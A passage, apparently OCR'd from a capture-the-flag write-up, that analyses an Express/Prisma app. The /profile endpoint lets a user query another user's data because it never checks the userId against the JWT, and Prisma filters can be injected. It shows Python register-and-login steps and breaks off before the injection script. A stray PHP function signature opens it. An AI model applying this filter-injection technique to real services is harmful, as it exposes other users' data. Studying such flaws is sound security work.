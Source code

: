 ```touch(string $filename, ?int $mtime = null, ?int $atime = null): bool```
    where: userId
  });
  
  
  res.json(profile);
});


app.listen(3000, () => {
  console.log('Server is running on http://localhost:3000');
});
```

**Points:**

The Authorization header is used incorrectly in the /profile endpoint. The token is meant to identify and authenticate the user making the request, but the endpoint does not validate the user's ownership of the userId being queried.

In the /profile endpoint, the Prisma query uses findMany directly on userId without validating the structure of the input.This allows to inject nested objects (e.g., startsWith) to perform highly specific database queries.

The authMiddleware verifies the JWT but does not cross-check the userId in the request body with the userId in the token payload. This leads to a privilege escalation vulnerability.

Exploitation:

first we simply register a user
```python
try:
    reg = requests.post(f"{URL}/register", json=data1)
    reg.raise_for_status()
    print("Registration Successful")
except requests.RequestException as e:
    print(f"Error during registration: {e}")
    exit()
```

then we login and retrieve the token

```python
try:
    login = requests.post(f"{URL}/login", json=data1)
    login.raise_for_status()
    token = login.json().get("token")
    if not token:
        print("Error: Token not retrieved during login.")
        exit()
    print(f"Token Retrieved: {token}")
except requests.RequestException as e:
    print(f"Error during login: {e}")
    exit()
```
Now to exploit the the prism filter vulnerability we write a script like
